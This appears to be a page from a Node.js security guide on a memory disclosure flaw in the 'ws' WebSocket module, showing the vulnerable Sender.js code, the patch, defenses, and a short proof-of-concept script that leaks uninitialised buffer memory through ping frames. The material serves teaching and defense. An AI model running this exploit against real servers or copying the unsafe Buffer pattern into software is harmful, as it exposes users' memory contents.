 ## Memory Disclosure
Memory disclosure vulnerabilities are related to the information disclosure class of bugs. It occurs when a system reveals system data or debugging information that helps an adversary learn about the system and form a plan of attack. The "ws" module had a vulnerability that when exploited would allow the allocation of memory through ping frames. The module transforms data into Buffer instances insecurely and as a result would reveal non-zeroed buffers. The module didn't do checks on the type of data it was sending back to the client.

### Defenses
- Audit the modules your application depends on
- Use a monitoring platform such as N|Solid which has a **ZeroFillAllocation** feature that zero-fills memory allocated for Buffers

### Vulnerable Code View
```
/*
Depending on the parameters passed, ws would allocate different bytes of memory.
var x = new Buffer(100); // 100 bytes
var x = new BUffer('100'); // 3 bytes
*/

// ws/lib/Sender.js line 155:
if (data && (typeof data.byteLength !== 'undefined' || typeof data.buffer !== 'undefined')) {
  data = getArrayBuffer(data);
} else {
  data = new Buffer(data);
}
```

### Patched Code
```
// ws/lib/Sender.js line 155:
if (data && (typeof data.byteLength !== 'undefined' || typeof data.buffer !== 'undefined')) {
  data = getArrayBuffer(data);
} else {
  /* If people want to send a number, this would allocate the number in
    bytes as memory size instead of storing the number as buffer value.
    So we need to transform it to string in order to prevent possible
    vulnerabilities / memory attacks.
  */
  if (typeof data === 'number') data = data.toString();
  data = new Buffer(data);
}

```

### Exploit Code
```
var ws = require('ws')

var server = new ws.Server({ port: 9000 })
var client = new ws('ws://localhost:9000')

client.on('open', function () {
  console.log('open')
  client.ping(50) // this sends a non-zeroed buffer of 50 bytes

  client.on('pong', function (data) {
    console.log('got pong')
    console.log(data) // Data from the client.
  })
})
```
